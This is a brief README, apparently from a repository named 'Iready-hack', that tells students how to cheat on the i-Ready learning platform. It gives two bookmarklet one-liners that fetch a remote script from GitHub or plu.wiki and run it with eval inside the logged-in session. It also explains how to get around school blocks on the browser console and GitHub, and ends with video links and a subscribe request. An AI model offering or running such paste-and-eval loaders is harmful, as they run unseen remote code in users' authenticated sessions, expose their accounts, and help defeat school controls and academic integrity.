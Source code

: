 # Iready-hack
<bold><h1>How to setup:</bold></h2>
Copy the code below and login to i-Ready.

Do Ctrl + Shift + J to open the console and paste the code in there, hit Enter to run it.

If your school blocks the console then make a new bookmark and in the URL section paste the code there. Click the bookmark anytime to run the code.

    javascript:fetch('https://raw.githubusercontent.com/sysplu/Nullify/main/src/main.js').then(r => r.text()).then(r => eval(r))

If your school blocks github, use:

     javascript:fetch('https://plu.wiki/files/bookmarklet.js').then(r => r.text()).then(r => eval(r))
<bold><h1>How to make a bookmark:</bold></h1>

https://www.youtube.com/watch?v=XAMg8Qm3eEA&ab

<bold><h1>How to hack Iready:</bold></h1>

https://www.youtube.com/watch?v=ou652X0cFzs

<bold><h1>Pls Subscribe!</bold></h1>

https://bit.ly/BD1Studios

